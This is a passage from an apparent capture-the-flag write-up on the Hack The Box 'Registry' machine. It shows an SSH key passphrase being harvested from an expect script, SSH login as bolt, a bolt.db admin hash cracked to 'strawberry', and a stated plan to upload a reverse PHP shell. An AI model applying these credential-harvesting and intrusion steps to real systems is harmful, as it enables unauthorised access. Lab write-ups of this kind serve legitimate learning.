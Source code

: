 Inside of the `sha256_2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791` directory there is a root folder where I can read the .bash_history. In there it mentions a file called `01-ssh.sh` now if I just use the `find` command to locate the file and then `cat` it I see I get a password to what looks like the ssh private key
```
#cat profile.d/01-ssh.sh

#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```
Next I used the `find` command once again to locate the `id_rsa` file. Inside the `.ssh` directory where the key is located there is a config file that lists a user `bolt` that we can use to ssh as.
```
# cat config 
Host registry
  User bolt
  Port 22
  Hostname registry.htb
```
I then use the key to ssh in as the user bolt. When it prompts me for a password I enter the one that I found earlier. I have now successfully logged in as the user `bolt`
```
# ssh -i id_rsa bolt@registry.htb
The authenticity of host 'registry.htb (10.10.10.159)' can't be established.
ECDSA key fingerprint is SHA256:G1J5ek/T6KuCCT7Xp2IN1LUslRt24mhmhKUo/kWWVrs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'registry.htb,10.10.10.159' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Wed Nov 20 05:21:02 UTC 2019

  System load:  0.0               Users logged in:                0
  Usage of /:   5.7% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 30%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   2%                IP address for docker0:         172.17.0.1
  Processes:    157
Last login: Wed Nov 20 04:33:47 2019 from 10.10.14.14
bolt@bolt:~$ 
```
From here I can read the `user.txt` file
```
bolt@bolt:~$ cat user.txt 
ytc0ytdmnzywnzg****************
```
Next I do some manual enumeration and find a `bolt.db` file located at `/var/www/html/app/database/bolt.db`.  I can read the file using `sqlite3` and doing that I will find an admin password hash. I can crack that hash using hashcat.
```
$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK:strawberry
```
Now I had gobuster running in the background which found a login page at `http://10.10.10.159/bolt/bolt/login`. I can use these credentials `admin:strawberry` to login here. Once logged in I am greeted with a simple dashboard. On the left side I saw a `File Management` section and thought to upload a reverse php shell and saw that php was not one of the approved file types.
